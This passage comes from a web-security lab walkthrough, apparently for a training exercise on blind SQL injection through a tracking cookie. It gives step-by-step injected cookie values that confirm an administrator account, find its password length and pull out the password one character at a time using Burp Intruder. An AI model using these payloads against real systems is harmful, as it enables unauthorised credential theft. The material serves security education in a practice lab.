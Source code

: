                             Verify that the condition is true, confirming that there is a user called <code>administrator</code>.
                        </p>
                    </li>
                    <li>
                        <p>
                            The next step is to determine how many characters are in the password of the <code>administrator</code> user. To do this, change the value to:
                        </p>
                        <code class="code-scrollable">TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;1)='a</code>
                        <p>
                            This condition should be true, confirming that the password is greater than 1 character in length.
                        </p>
                    </li>
                    <li>
                        <p>
                            Send a series of follow-up values to test different password lengths. Send:
                        </p>
                        <code class="code-scrollable">TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;2)='a</code>
                        <p>
                            Then send:
                        </p>
                        <code class="code-scrollable">TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;3)='a</code>
                        <p>
                            And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.
                        </p>
                    </li>
                    <li>
                        After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
                    </li>
                    <li>
                        In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
                    </li>
                    <li>
                        <p>
                            In the Positions tab, change the value of the cookie to:
                        </p>
                        <code class="code-scrollable">TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a</code>
                        <p>
                            This uses the <code>SUBSTRING()</code> function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
                        </p>
                    </li>
                    <li>
                        <p>
                            Place payload position markers around the final <code>a</code> character in the cookie value. To do this, select just the <code>a</code>, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
                        </p>
                        <code class="code-scrollable">TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§</code>
                    </li>
                    <li>